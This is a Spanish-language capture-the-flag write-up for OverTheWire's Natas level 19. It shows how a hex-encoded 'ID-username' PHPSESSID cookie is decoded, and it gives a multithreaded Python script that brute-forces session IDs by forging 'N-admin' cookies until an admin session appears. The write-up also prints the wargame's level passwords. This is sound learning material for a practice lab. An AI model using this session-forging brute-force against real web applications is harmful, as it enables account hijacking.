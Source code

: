 # Natas 19

### URL:

### Credenciales: natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr

Introducimos user:user y nuestra cookie de sesion luce como hexadecimal, si la decodificamos vemos algo similar a esto:

``` bash
python3
Python 3.12.8 (main, Dec  4 2024, 12:15:27) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import binascii;binascii.unhexlify("3539372d75736572")
b'597-user'
```

Nuestra cookie guarda en formato hexadecimal una cadena de la forma "ID-username". Nos mencionan que ya el orden de los id's no es secuencial, pero sabemos que el usuario es admin.

Hacemos el mismo proceso que en el nivel anterior, solo que ahora concatenamos la ID a "-admin" y la codificamos en hexadecimal antes

``` python
from base64 import b64encode
import requests
import threading

URL="http://natas19.natas.labs.overthewire.org/index.php"
threads = []
output = None

def tryID(n):
        global output
        headers = {'Authorization': f'Basic {b64encode('natas19:tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr'.encode()).decode()}',
               'Content-Type': 'application/x-www-form-urlencoded',
               'Cookie': "PHPSESSID=" + f"{n}-admin".encode().hex()}
        data = "username=admin&password=admin"
        print(headers['Cookie'])

        x = requests.post(URL,headers=headers,data=data)
        if "You are logged in as a regular user." not in x.text:
            output=x.text + "#### Admin cookie: " + headers['Cookie']


for i in range(0,20):
    for j in range(0,50):
        print(i*50+j)
        t = threading.Thread(target=tryID,args=(i*50+j,))
        threads.append(t)
        t.start()
    for t in threads:
        t.join()
    if output:
        print(output)
        break
    threads.clear()
```

Si ejecutamos este script con `python3 script.py` obtenemos al final
```
You are an admin. The credentials for the next level are:<br><pre>Username: natas20
Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
</body>
</html>
#### Admin cookie: PHPSESSID=3238312d61646d696e
```

`natas20:p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`

PD: Esta vez ajusté los hilos a 50 


